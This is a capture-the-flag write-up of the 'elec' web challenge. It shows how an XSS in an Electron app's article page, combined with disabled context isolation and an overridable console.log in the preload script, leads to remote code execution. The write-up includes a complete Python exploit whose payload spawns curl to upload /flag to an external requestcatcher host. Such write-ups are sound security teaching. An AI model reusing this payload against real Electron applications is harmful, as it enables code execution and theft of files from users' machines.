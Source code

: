 https://ctftime.org/event/2377

Could not solve during the ctf but was very close.

# elec (web)

This is a classic xss -> report challenge but it uses a electron app instead of a puppeteer script.

## Solution

The xss happens on `/article/:id` and there are some limits to it by the CSP
```go
Content-Security-Policy", "default-src 'self'; script-src 'self' https://cdn.jsdelivr.net https://esm.sh 'unsafe-inline'; style-src 'self' https://cdn.jsdelivr.net; object-src 'none'; base-uri 'none'; frame-ancestors 'none'"
```

```javascript
const win = new BrowserWindow({
	width: 800,
	height: 600,
	webPreferences: {
		preload: path.join(__dirname, "preload.js"),
		contextIsolation: false,
		sandbox: false,
	},
});
```
electron window options:
- no nodeIntegration so we cant just do require('child_process')
- contextIsolation so if we set something in preload it will show in renderer
- more details:
    - https://www.electronjs.org/docs/latest/

```javascript
window.addEventListener("load", async () => {
	const versions = {
		app: "0.0.1",
		node: process.versions.node,
		chrome: process.versions.chrome,
		electron: process.versions.electron,
	};
	console.log(versions);

	const cp = spawn("uname", ["-a"]);
	console.log(cp);
	const kernelInfo = await loadStream(cp.stdout);

	document.getElementById("app-version").textContent = versions.app;
	document.getElementById("node-version").textContent = versions.node;
	document.getElementById("chrome-version").textContent = versions.chrome;
	document.getElementById("electron-version").textContent = versions.electron;
	document.getElementById("kernel-info").textContent = kernelInfo.toString();
	document.getElementById("admin-footer").classList.remove("d-none");
});
```
this is the preload script, the main vulnerability in this is that stuff can be overwritten from the xss. so if we set `document.getElementById = alert` an alert will popup.
there are 2 problems, the flag is in a file and `connect-src 'self'` so we need an rce.

looking at interesting stuff to overwrite, we see `console.log` being called with an instance of `ChildProcess`
so we overwrite that and call its constructor and just curl the flag

```python
#!/usr/bin/env python3
import requests
import base64
import re
import urllib

REMOTE = "http://0.0.0.0:1323/"

payload = """
<script//type="module">
var console = (function(oldCons){
    return {
        log: function(text){
            if (text.spawnfile) {
                const cp2 = new text.constructor();
                cp2.spawn({ shell: true, file: 'curl', args: ['curl', '-F', 'flag=@/flag', 'https://lalalalalallalala.requestcatcher.com/'] });
                return oldCons.log(text);
            }

            oldCons.log(text);
        },
    };
}(window.console));

window.parent.console = console;
</script>
""".replace("\n", "").replace(" ", "&nbsp;").replace("<", "&lt;").replace(">", "&gt;")
payload = base64.b64encode(payload.encode()).decode()

body = f"""<img src=x onerror='javascript:a="{payload}";document.getElementById("content").innerHTML="<iframe srcdoc="+atob(a)+"></iframe>"'>"""
print(body)

res = requests.post(REMOTE, data={
        'title':body,
        'content':body
    })

try:
    url = re.search('action="(.+?)"', res.text).group(1)
    print(f"{REMOTE+url.replace('/report','article')}")
except Exception as e:
    print("error")

res = requests.post(REMOTE + url)
```

## Flag
`FLAG{r3m07e_c0d3_execu710n_v1a_3l3c7r0n}`

shafouz 2024/06/23
